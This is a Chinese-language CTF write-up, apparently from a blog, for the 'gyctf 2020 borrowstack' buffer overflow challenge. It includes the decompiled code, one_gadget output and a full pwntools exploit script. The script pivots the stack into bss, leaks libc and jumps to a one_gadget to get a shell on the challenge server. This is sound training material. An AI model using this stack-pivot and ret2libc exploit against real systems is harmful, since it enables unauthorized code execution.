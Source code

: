 ```yaml
---
author: 
  name: Zephyr
title: gyctf 2020 borrowstack
date: 2022-4-8 16:51:29
permalink: /pages/2e1547494524d1b0
tags: 
  - buuctf
  - pwn
  - StackOverflow
  - 栈迁移
---
```


# gyctf 2020 borrowstack

## 前提

### 查看文件保护

```shell
[*] '/root/pwn/buuctf/gyctf_2020_borrowstack/gyctf_2020_borrowstack'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

## 静态分析

主函数如下：

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char buf; // [rsp+0h] [rbp-60h]

  setbuf(stdin, 0LL);
  setbuf(stdout, 0LL);
  puts(&s);
  read(0, &buf, 0x70uLL);
  puts("Done!You can check and use your borrow stack now!");
  read(0, &bank, 0x100uLL);
  return 0;
}
```

one_gadget如下：

```shell
one_gadget libc-2.23.so
0x45216 execve("/bin/sh", rsp+0x30, environ)
constraints:
  rax == NULL

0x4526a execve("/bin/sh", rsp+0x30, environ)
constraints:
  [rsp+0x30] == NULL

0xf02a4 execve("/bin/sh", rsp+0x50, environ)
constraints:
  [rsp+0x50] == NULL

0xf1147 execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
```



## 思路分析

1. 目前信息：

   - `main`函数`buf`缓冲区有`0x10`大小可以溢出
   - `bank`变量在`bss`段,地址可确定
   - 无`system`函数，无`/bin/sh`字符串
   - No canary found
   - NX enabled
   - No PIE
1. 坑
- `bss`段上的`bank`距离`got`表太近，使`rop`链在执行时覆盖了`got`表内容，导致失败
3. 思路：

- 可溢出大小太短，无法一次性构造`payload`完成控制程序执行流，考虑在第一次溢出将栈迁移至`bank`处，泄漏`libc`找到`one_gadget`，二次溢出到`one_gadget`处获得`shell`

## exp

```python
from pwn import *
from LibcSearcher import *
context(os='linux', arch='amd64', log_level='debug')
context.terminal = ['tmux', 'splitw', '-h']
pwnfile = '/root/pwn/buuctf/gyctf_2020_borrowstack/gyctf_2020_borrowstack'
# io = process(pwnfile)
io = remote('node4.buuoj.cn', 29600)
elf = ELF(pwnfile)
padding = 0x60+8
bss_bank = 0x601080
leave_ret = 0x400699
pop_rdi_ret = 0x400703
ret = 0x4004c9
main_addr = elf.symbols['main']
puts_plt = elf.plt['puts']
libc_start_main_got = elf.got['__libc_start_main']
csu_front = 0x4006E0
csu_rear = 0x4006FA
payload = flat([cyclic(padding-8), bss_bank+0xa0, leave_ret])
# bss段上的bank离got表太近，为了防止覆盖got表，这里选择迁移到bss_bank+0xa0处
io.sendafter('Tell me what you want\n', payload)
payload = flat([cyclic(0xa0), bss_bank+0x100, pop_rdi_ret,libc_start_main_got, puts_plt, main_addr])
io.sendafter('Done!You can check and use your borrow stack now!\n', payload)
leak_libc_start_main = u64(io.recvuntil('\x7f')[-6:].ljust(8, b'\x00'))
log.success("leak_libc_start_main: " + hex(leak_libc_start_main))
# 理论上接下来ret2libc即可，但因为栈已经被迁移至了bss段
# 而返回main处要处理sub rsp,60h这一条指令的同时也要解决后面双栈迁移
# 这样套娃逻辑较为混乱，所以选择one_gadget
libc = LibcSearcher('__libc_start_main', leak_libc_start_main)
# 泄漏了几个libc 可以在/LibcSearcher/libc-database/db 找泄漏出的libc对应的one_gadget
libc_base = leak_libc_start_main-libc.dump('__libc_start_main')
one_gadget = libc_base + 0x4526a
payload = flat([cyclic(padding), one_gadget])
# 此时rsp+0x30就是null，不需要用ret调整rsp的位置
io.send(payload)
io.send('0xdeadbeef')
io.interactive()
```